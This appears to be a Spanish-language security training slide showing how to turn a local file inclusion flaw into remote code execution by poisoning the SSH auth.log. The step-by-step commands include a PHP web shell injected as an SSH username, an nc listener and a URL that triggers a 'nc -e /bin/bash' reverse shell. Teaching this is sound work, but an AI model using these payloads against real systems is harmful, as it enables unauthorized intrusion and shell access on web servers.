

# Ejemplos
LFI a RCE Inyección de código
Extra

En este ejemplo vamos a utilizar LFI & SSH auth.log para realizar una acción similar.

/var/log/auth.log tiene que tener read access para la aplicación web
Asegurarse que el puerto 22 este listening: netstat -an o correr un nmap
Intentar una conexión via ssh: ssh '<?php system($_GET['cmd']); ?>'@127.0.0.1
Revisar el logs via LFI: ../auth.log y agregamos la variable inyectada cmd con valor de “id”
Buscamos el valor entre los logs. Si, aparece el output de “id”, podemos iniciar una conexion reversa

Computadora atacante (listener)
nc -lvp 4444

Browser
http://127.0.0.1:8080/dc506/lfi-viewer.php?log=../auth.log&cmd=nc -e /bin/bash 127.0.0.1 4444&submit=Submit